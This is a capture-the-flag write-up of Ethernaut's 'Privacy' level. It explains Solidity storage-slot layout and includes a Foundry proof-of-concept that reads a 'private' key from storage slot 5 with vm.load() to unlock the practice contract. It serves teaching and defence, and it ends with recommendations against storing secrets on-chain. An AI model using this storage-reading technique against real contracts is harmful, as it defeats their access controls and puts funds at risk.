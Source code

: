 # Level 12 - Privacy

## Objectives

- Unlock the contract!
- The goal of this challenge is to be able to unlock `Privacy` contract by discovering the "secret" key stored in it.

## Contract Overview

Access to the `Privacy` contract is protected by a key. It is set during contract construction. The password string is saved as bytes32 in the `private` array `data` as variable number 2. The state of the `Privacy` is represented by the boolean flag `locked`. The contract is `locked` (`locked` is equal to true) and the goal is to change it to `false` by calling `unlock` function. To unlock it we know that our key is equal to `bytes16(data[2]))`;

The contract is straightforward, consisting of multiple state variables, a constructor, and an `unlock` function.

All the state variables are pretty useless, we are just interested in two variables:

- `bool public locked` that is initialized to `true` and hold the value that must be set to `false` to win the challenge
- `bytes32[3] private data` is the variable where our key is stored. We need to find out the value of `data[2]` to solve the challenge

```solidity

  bool public locked = true; // <-- this line over here
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data; // <-- this line over here
```

The `constructor(bytes32[3] memory _data)` just initialize the data variable's value

```solidity
  constructor(bytes32[3] memory _data) {
    data = _data;
  }
```

Then we have `unlock(bytes16 _key)` that simply check if the `byte16 _key` input we have passed match the `data[2]` value. If the comparison return, true we have unlocked the contract and passed the challenge.

```solidity
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
```

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Privacy_slither.png)

## Finding the weak spots

All the storage data on the blockchain is publicly visible and anyone can obtain it.

The `unlock()` function is taking an input `_key` and comparing it with an already set `data` array in the constructor. We can not see the key hardcoded anywhere but the thing about blockchain is all the storage data is publicly visible and anyone can obtain it. The `private` variables are not meant to store "private" data/passwords.

Private state variables (and functions) are only hidden from other contracts. They are visible in the contracts in which they are defined. Any off-chain component can still query contracts storage and access specific storage slot values.

According to Solidity documentation, statically-sized variables (everything except mapping and dynamically-sized array types) are laid out contiguously in storage starting from position 0. Multiple items that need less than 32 bytes are packed into a single storage slot if possible.

This means that each variable type in Solidity is stored on storage slots and each slot is 32 bytes in size. If a variable is smaller than 32 bytes, then the EVM tries to pack multiple variables into a single slot to optimize the storage.

To clear this level we must understand the storage slot of each variable.

```solidity
  bool public locked = true; // slot 0
  uint256 public ID = block.timestamp; // slot 1
  uint8 private flattening = 10; // slot 2
  uint8 private denomination = 255; // slot 2
  uint16 private awkwardness = uint16(now); // slot 2
  bytes32[3] private data; // slot 3 to 6
```

We have to remember that each storage slot is 32 bytes (256 bits) in size.

- `bool locked` - Takes up 8 bits or 1 byte of space. This will be in slot 0.
- `uint256 ID` - Takes up 32 bytes or 256 bits of space. A full slot. This will be in slot 1.
- `uint8 flattening` - Takes up 1 byte of space. This will go in slot 2 as slot 1 is full.
- `uint8 denomination` - Takes up 1 byte of space. This will go in slot 2 as well due to packing.
- `uint16 awkwardness` - Takes up 2 bytes of space. This will go in slot 2 as well since 32 bytes is not completely filled.
- `bytes32[3] data` - Structs and array data always start a new slot and occupy whole slots. This will go in slot 3 and occupy till slot 6 since bytes32 take up a full slot of 32 bytes. The \_key will be on slot 5 according to this.

## Potential attack scenario (hypothesis)

Attacker to unlock contract has to send the value stored inside `bytes32[2] private data` (slot 5) variable as `bytes16` which will allow us to go through the `require` statement and set the `locked` to `false`.

Attacker can query the secret key from the appropriate storage slot via `vm.load()`.

## Plan of the attack

1. Attacker looks at the order of declaration of state variables in the contracts source code.
2. Attacker determines which storage slot will be occupied by the key.
3. Attacker performs a call to read the key from the storage.
4. Attacker can now make a call to the `unlock()` function passing the key (downcastinbg it to the `bytes16` type) as the argument.
5. The `Privacy` contract is unlocked.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/12-Privacy.t.sol))

```solidity
        console.log("Is Privacy contract locked?", privacyContract.locked());

        emit log_string("Starting the exploit...");
        emit log_string(
            "Attacker reads the data from the storage slot number 5..."
        );
        bytes32 key = vm.load(address(privacyContract), bytes32(uint256(5)));

        emit log_named_bytes32("Key is", key);

        emit log_named_bytes32("Downcasted data", bytes16(key));

        emit log_string(
            "Attacker calls the unlock function with the aquired data..."
        );

        privacyContract.unlock(bytes16(key));

        console.log("Is Privacy contract locked?", privacyContract.locked());

        // Test assertion
        assertEq(privacyContract.locked(), false);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Privacy.png)

## Recommendations

- Nothing is private on the public blockchain. Sensitive information like passwords or keys should not be stored in a place where anyone can read them.
- Obfuscate the data or don't store it on the public ledger at all.
- Never store private data on the blockchain even inside private data types as everything is public and can be obtained.
- Slot packing helps a lot when you need to optimize your contracts to save some gas.

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-11-solution-elevator)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)
- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
